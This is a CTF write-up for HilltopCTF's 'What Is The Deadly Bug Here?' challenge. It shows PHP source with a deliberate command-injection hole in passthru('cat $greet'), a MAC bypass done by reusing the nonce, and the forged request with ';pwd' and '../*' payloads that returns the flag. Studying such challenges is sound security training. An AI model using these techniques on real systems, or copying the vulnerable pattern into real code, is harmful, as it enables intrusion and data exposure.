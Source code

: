 ```yaml
---
layout: post
title: "What is the Deadly Bug Here?"
date: 2020-05-01
categories: CTF
---
```

HilltopCTF - What Is The Deadly Bug Here?

CTF Description: Some times ago I stumbled upon a guy who is famous in YouTube,
and I subscribed him! I think he is very passionate and thoughtful about security things,
and one day, he uploaded a video with title: "Let's play a game: what is the deadly bug
here?." I was very amazed back then. But, that video made me think: I can't just stop with
knowing the bug, I need to do better! I have to patch the code. And here I am, I patched the code and it is bug-proof.

When we initially visit the website, we are greeted with `You need to provide 'mac' and 'greet', okay?`
While viewing the headers, we are provided some handy notes left to us by the author of the code.
By passing `?debug` along, we can view their "patched" source code.
```
Headers:

HTTP/1.1 200 OK
Date: Sat, 30 May 2020 12:53:33 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.4.6
X-MY-GREET: aboutme.txt
X-MY-GREET-MAC: cabb57d8fb9ab6dbccbef600f370108ad331617dc5432fb55d0b4f2b7f5df01c
X-SELF-NOTE: '?debug' in case I forgot.
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 1084
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

Source code visible by ?debug

?php
error_reporting(0);
ini_set('display_errors', 0);

require_once("secret.php");

function patched($alg, $string, $secret) 
{
    if (is_string($string)) {
        if ($alg === "sha256") {
            return hash($alg, $secret . $string);
        }
        else {
            header('HTTP/1.0 400 Bad Request');
            echo "That algorithm is not supported at the moment.";
            exit;
        }
    }
    else {
        header('HTTP/1.0 400 Bad Request');
        echo "Wouldn't work anymore hahahaha!";
        exit;
    }

}

$alg = "sha256";
$greet = "aboutme.txt";
header("X-MY-GREET: $greet");
header("X-MY-GREET-MAC: " . patched($alg, $greet, $secret));
header("X-SELF-NOTE: '?debug' in case I forgot.");

if (isset($_GET['debug'])) {
    highlight_file( __FILE__ );
}

if (empty($_GET['mac']) || empty($_GET['greet'])) {
    header('HTTP/1.0 400 Bad Request');
    echo "You need to provide 'mac' and 'greet', okay?";
    exit;
}

if (isset($_GET['alg'])) $alg = $_GET['alg'];

if (isset($_GET['greet'])) $greet = $_GET['greet'];

if (isset($_GET['nonce'])) $secret = patched($alg, $_GET['nonce'], $secret);

$mac = patched($alg, $greet, $secret);

// I still need to make sure the string is safe. Should this do?
$greet = filter_var($greet, FILTER_UNSAFE_RAW, FILTER_FLAG_STRIP_LOW|FILTER_FLAG_STRIP_HIGH);

if ($mac !== $_GET['mac']) {
    header('HTTP/1.0 403 Forbidden');
    echo "Nah it doesn't match.";
    exit;
}

// This is for testing, gonna make it dangerous since this won't be executed at all :).
echo passthru("cat $greet 2>&1", $err);
// echo $err;

?> You need to provide 'mac' and 'greet', okay?
```
We need to pass a mac and greet variable to the host. The headers show a `mygreet` and `mymac`, which when
passed will allow the code `echo passthru("cat $greet 2>&1", $err);` to display the greet, which is
aboutme.txt. We need to find a way to pass a greet through to find the flag. To do so we need a corresponding mac for the greet.
```
Aboutme.txt:

The code is patched by me. The 1337abcdefghijklmnopqrstuvwxyz1337 Hacker.
```
I spent several hours staring at the source code, but I'm not much of a programmer and I didn't see anything
obviously wrong. A quick youtube search turned up the video by liveoverflow referenced in the challenge
description. The video referenced an attack where he was able to set the variable nonce to an array,
causing the hash_hmac function to return a NULL, allowing him to bypass knowing the secret.
The patched code in this challenge utilizes an `is_string` check to keep you from passing an array
through, and makes sure you don't try to change the algorithm from `sha256` via `===`. The challenge also
utilizes the hash function instead of hash_hmac, making it less secure, possibly to hash
length extension attacks. Since we know greet is aboutme.txt and the corresponding hash, it seems like it could work.

I spent a whole night trying to utilize a hash length extension attack to pass through
a command to list directory contents to find the flag. After hours of failure, I went to bed
determined to find the solution. The next morning I awoke to a hint on discord that says look
at what you know and how it's calculated. I immediately realized that the function that is formulating
the hash to display in the headers is the same function that calculates secret if we set the variable nonce.
```
header("X-MY-GREET-MAC: " . patched($alg, $greet, $secret));
if (isset($_GET['nonce'])) $secret = patched($alg, $_GET['nonce'], $secret);
```
By setting the variable nonce to aboutme.txt, the secret variable will now be set to the same mac that
is passed to us through the header! Now that we control what the secret is, we can use an interactive
php shell to generate the mac for the payload we want to send. I proceeded to send `;pwd` as a payload to
find our current working directory, which is `/var/www/html`. A hint provided on the ctf website says
what we want is in the `/var/www` directory. The code we are exploiting `echo passthru("cat $greet 2>&1", $err);`
is running the cat command against whatever we pass as greet. We can cat out all files in a directory by utilizing `*`,
so I crafted a mac for `../*` and got the flag!
```
root@kali:~# php -a
Interactive mode enabled

php > echo hash("sha256", "cabb57d8fb9ab6dbccbef600f370108ad331617dc5432fb55d0b4f2b7f5df01c" . "../*");
cfe3ac764981e94d4a7ebe6123d33eee2b30c19fff05c93e5377fb07f33be9d3

root@kali:~# curl -i 192.81.210.234:10002/?mac=cfe3ac764981e94d4a7ebe6123d33eee2b30c19fff05c93e5377fb07f33be9d3\&greet='../*'\&nonce=aboutme.txt
HTTP/1.1 200 OK
Date: Fri, 29 May 2020 13:29:30 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.4.6
X-MY-GREET: aboutme.txt
X-MY-GREET-MAC: cabb57d8fb9ab6dbccbef600f370108ad331617dc5432fb55d0b4f2b7f5df01c
X-SELF-NOTE: '?debug' in case I forgot.
Vary: Accept-Encoding
Content-Length: 125
Content-Type: text/html; charset=UTF-8

HilltopCTF{uh...1think_1mad3_itwors3_s00wy}
That's the flag, please use them wisely.
Thankyou.cat: ../html: Is a directory
```
I spent so much time looking for an error in the code that I overlooked the human error of being supplied a greet
and corresponding match. Once I realized that the answer had been staring me in the face the
whole time I was able to solve the challenge in a matter of minutes.
